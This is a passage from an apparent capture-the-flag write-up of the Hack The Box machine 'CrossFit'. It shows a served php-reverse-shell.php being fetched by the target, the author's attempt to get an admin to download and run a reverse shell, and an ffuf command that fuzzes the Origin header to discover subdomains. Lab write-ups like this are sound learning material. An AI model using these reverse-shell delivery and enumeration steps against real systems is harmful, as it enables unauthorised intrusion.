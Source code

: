 ```text
┌──(zweilos㉿kali)-[~/htb/crossfit]
└─$ python3 -m http.server 8099
Serving HTTP on 0.0.0.0 port 8099 (http://0.0.0.0:8099/) ...
10.10.10.208 - - [28/Dec/2020 14:53:10] "GET /php-reverse-shell.php HTTP/1.1" 200 -
```

In the same spirit I tried to get the admin to download a PHP reverse shell from me, but I couldn't find where it had been uploaded nor figure out how to execute it.

![](/assets/img/2-origin.png)

`Origin` Header with `Access-Control-Allow-Origin` response header

### ftp.crossfit.htb

I was familiar with fuzzing for vhosts as well as directories and files, but fuzzing for a response in a header was something new.  I did some research on more advanced uses of `ffuf` and found a few interesting articles.

* [https://agentsteal.com/fuzz-parameters-directories-more-with-ffuf/](https://agentsteal.com/fuzz-parameters-directories-more-with-ffuf/)
* [https://codingo.io/tools/ffuf/bounty/2020/09/17/everything-you-need-to-know-about-ffuf.html\#what-is-ffuf--and-what-is-it-used-for-](https://codingo.io/tools/ffuf/bounty/2020/09/17/everything-you-need-to-know-about-ffuf.html#what-is-ffuf--and-what-is-it-used-for-)

```bash
┌──(zweilos㉿kali)-[~/htb/crossfit]
└─$ ffuf -t 25 -c -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -u http://10.10.10.208 -H 'Origin: http://FUZZ.crossfit.htb' -mr 'Allow-Origin'               

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.2.1
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.10.208
```